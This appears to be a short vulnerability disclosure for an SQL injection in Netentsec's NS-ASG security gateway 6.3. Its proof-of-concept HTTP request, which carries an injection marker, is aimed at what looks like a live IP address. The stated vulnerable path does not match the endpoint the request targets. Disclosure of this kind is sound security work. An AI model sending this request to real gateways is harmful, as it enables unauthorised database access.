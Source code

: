 Beijing Wangkang Technology Co., Ltd. is a leading provider of network application management equipment in China, focusing on the latest trend research and analysis in the field of network application management. It provides users with advanced network application management technology, products, and solutions, aiming to help users achieve the goal of "using the internet well" in network management.

There is an SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official： https://www.netentsec.com/

version:6.3 Vulnerability Path ： /protocol/iscdevicestatus/deleteonlineuser.php

<img width="631" alt="图片" src="https://github.com/charliecatsec/cve1/assets/171440363/da2ad629-f271-406e-96e5-168414e6e173">

Poc：
```
POST /protocol/index.php HTTP/1.1
Host: 1.85.53.53
Cookie: PHPSESSID=bfd2e9f9df564de5860117a93ecd82de
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 63

jsoncontent={"protocolType":"getethname","messagecontent":"1*"}
```
<img width="642" alt="图片" src="https://github.com/charliecatsec/cve1/assets/171440363/4299d23e-2d2b-4787-a3c1-40043a122fb4">
<img width="604" alt="图片" src="https://github.com/charliecatsec/cve1/assets/171440363/46370091-9267-4645-8c35-b5575a3ae2d3">

